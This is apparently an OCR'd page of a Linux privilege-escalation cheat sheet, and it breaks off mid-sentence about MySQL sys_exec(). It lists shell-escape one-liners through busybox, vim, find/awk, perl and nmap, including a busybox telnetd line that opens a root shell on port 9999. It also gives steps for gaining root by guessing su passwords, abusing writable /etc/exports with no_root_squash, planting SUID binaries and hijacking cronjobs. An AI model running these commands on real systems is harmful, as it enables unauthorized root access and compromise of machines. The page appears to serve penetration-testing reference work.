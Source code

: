 From busybox

$ /bin/busybox telnetd -|/bin/sh -p9999

:!bash

:set shell=/bin/bash:shell

!bash

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

awk 'BEGIN {system("/bin/bash")}'

--interactive

echo "os.execute('/bin/sh')"

sudo nmap --script=exploit.nse

perl -e 'exec "/bin/bash";'

Linux elevation of privileges, manual testing

Things to look: Miss-configured services (cronjobs), incorrect file permissions (exportfs, sudo), miss-configured environment ($PATH), binary with SUID bit, software or OS with known vulnerabilities.

First try simple sudo:

$ sudo su -

What can we run with sudo?

$ sudo -l

Try su as all users and the username as password

What services are running as root?:

$ ps aux | grep root

Look for vulnerable/privileged components such as: mysql, sudo, udev, python

If \*\*/etc/exports\*\* if writable, you can add an NFS entry or change and existing entry adding the \*\*no\\_root\\_squash\*\* flag to a root directory, put a binary with SUID bit on, and get root.

If there is a \*\*cronjob\*\* that runs as run but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

The following command will list processes running by root, permissions and NFS exports.

$ echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null

Use netstat to find other machines connected

$ netstat -ano

Command to skip ignored lines in config files

$ alias nonempty="egrep -v '^[ \t]\*#|^$'"

If Mysql is running as root, you can run commands using \*\*sys\\_exec()\*\*. For instance, to add user to sudoers:
